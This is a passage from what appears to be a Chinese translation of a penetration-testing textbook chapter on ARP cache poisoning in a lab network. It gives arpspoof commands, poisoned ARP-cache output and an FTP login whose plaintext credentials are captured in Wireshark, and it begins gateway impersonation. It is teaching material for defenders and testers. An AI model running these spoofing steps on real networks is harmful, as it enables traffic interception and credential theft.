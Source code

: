 为了捕获对话的另一端，我们需要让 Windows XP 机器也将原本应发送到 Linux 目标的流量发送到 Kali 机器。启动另一个 Arpspoof 实例，这次将目标设置为 Windows XP 机器，接收方设置为 Linux 机器。

```
root@kali:~#  **arpspoof -i eth0 -t 192.168.20.10 192.168.20.11**
```

一旦开始 ARP 缓存中毒，再次检查 Linux 目标的 ARP 缓存。请注意，Windows XP 目标关联的 MAC 地址已经更改为 70:56:81:b2:f0:53\。Linux 目标应该会将所有原本应发送到 Windows XP 目标的流量发送到 Kali 机器，我们可以在 Wireshark 中捕获这些流量。

```
georgia@ubuntu:~$ **arp -a**
? (192.168.20.1) at 00:23:69:f5:b4:29 [ether] on eth0
? (192.168.20.10) at 70:56:81:b2:f0:53 [ether] on eth0
```

现在，从 Linux 目标使用另一个账户登录 Windows XP 目标的 FTP 服务器（参见示例 7-3）。 （如果你按照我在第一章中的说明设置了*georgia:password*，那么这个账户可以使用。如果你设置了其他凭据，请使用那些凭据。）

示例 7-3. 使用用户账户从 Ubuntu 目标登录 Windows XP 的 FTP

```
georgia@ubuntu:~$ **ftp 192.168.20.10**
Connected to 192.168.20.10.
220-FileZilla Server version 0.9.32 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de)
220 Please visit http://sourceforge.net/projects/filezilla/
Name (192.168.20.10:georgia): georgia
331 Password required for georgia
Password:
230 Logged on
Remote system type is UNIX.
```

因为我们启用了 IP 转发，所以从用户的角度来看，一切似乎都正常。回到 Wireshark，我们看到这次我们能够捕获 FTP 流量并读取明文登录凭证。Wireshark 显示的输出（见图 7-8）确认我们的 Kali 机器正在转发两台目标之间的 FTP 流量。在每个 FTP 数据包后面，都有一个重传数据包。

![Wireshark 捕获登录信息。](img/httpatomoreillycomsourcenostarchimages2030370.png.jpg)图 7-8. Wireshark 捕获登录信息。

### 使用 ARP 缓存中毒来冒充默认网关

我们还可以使用 ARP 缓存中毒来冒充网络上的默认网关，访问进出网络的流量，包括目标是互联网的流量。停止你正在运行的 Arpspoof 进程，然后尝试通过冒充默认网关，欺骗 Linux 目标将所有流量路由到 Kali 机器，如下所示。

```
root@kali:~# **arpspoof -i eth0 -t 192.168.20.11 192.168.20.1**
```
